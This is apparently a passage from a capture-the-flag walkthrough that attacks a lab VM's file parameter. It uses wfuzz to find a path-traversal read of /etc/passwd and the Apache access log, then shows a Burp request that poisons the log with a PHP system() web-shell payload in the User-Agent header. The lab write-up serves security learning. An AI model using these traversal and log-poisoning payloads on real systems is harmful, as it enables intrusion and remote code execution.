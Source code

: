 ## Wfuzz - LFI Path Test

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ wfuzz -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt  --hh 0  'http://10.0.2.190/company/started.php?file=FUZZ'

  =====================================================================
  ID           Response   Lines    Word       Chars       Payload
  =====================================================================

  000000015:   200        29 L     43 W       1582 Ch     "../../../../../../../../../../../../../../etc/passwd"
  ^C
{% endhighlight %}

- So the valid path for LFI is  `../../../../../../../../../../../../../../`

- Note

If you don't find the log file at once with the below list, maybe you broke something in the Virtual Machine.
So you need to `reimport` the vm.

## Finding the wordlist

{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop/lfi-list]
  └─$ wget https://raw.githubusercontent.com/tjomk/wfuzz/master/wordlist/fuzzdb/attack-payloads/lfi/common-unix-httpd-log-locations.txt
{% endhighlight %}

##  Wfuzz - Log Files

{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop/lfi-list]
  └─$ wfuzz -w common-unix-httpd-log-locations.txt --hh 0  'http://10.0.2.190/company/started.php?file=../../../../../../../../../../../../../../../..FUZZ'

  =====================================================================
  ID           Response   Lines    Word       Chars       Payload
  =====================================================================

  000000019:   200        137 L    1994 W     26383 Ch    "/var/log/apache2/access.log"
{% endhighlight %}

## Log poisoning to RCE through User Agent

- Burpsuite
- Copy the following request to the Burpsuite repeater

```
GET /company/started.php HTTP/1.1
Host: 10.0.2.190
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: clos
```
